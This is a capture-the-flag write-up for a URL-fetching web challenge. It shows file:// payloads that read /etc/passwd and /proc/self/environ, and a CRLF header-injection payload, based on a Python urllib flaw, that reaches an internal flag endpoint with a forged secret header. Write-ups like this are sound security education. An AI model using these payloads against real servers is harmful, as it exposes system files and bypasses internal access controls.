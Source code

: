 # Visit

Created this cool website that can get the html of any website!

https://visit.telenor.live

# Writeup

Quickly tried `file:///etc/passwd` and got the flag.

![alt text](image.png)

Now where is the flag file? I tried `file:///flag` and many other files. After a bit I found out that we have the source files.

It seems to set a flag in the envirnoment, so I tried `file:///proc/self/environ` and got:

```bash
PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin<nul>HOSTNAME=dbf2c416be0f<nul>LANG=C.UTF-8<nul>GPG_KEY=0D96DF4D4110E5C43FBFB17F2D347EA6AA65421D<nul>PYTHON_VERSION=3.7.3<nul>PYTHON_PIP_VERSION=19.1.1<nul>HOME=/root<nul>
```

No help here. Finally I see the other docker container, it is an internal webpage on `http://visit_internal:8090/flag` which requires `secret` header to be set. After a bit of googling I find [this](https://bugs.python.org/issue36276) python vulnerability in `urllib.requests.urlopen` 

```
host = "10.251.0.83:7777?a=1 HTTP/1.1\r\nX-injected: header\r\nTEST: 123"
url = "http://" + host + ":8080/test/?test=a"
```

So it is using URL Injection


http://visit_internal:8090/flag HTTP/1.1%0D%0Asecret: SuPerSecRetPasSwOrd:8090/flag


![alt text](image-1.png)

# Flag

```

```
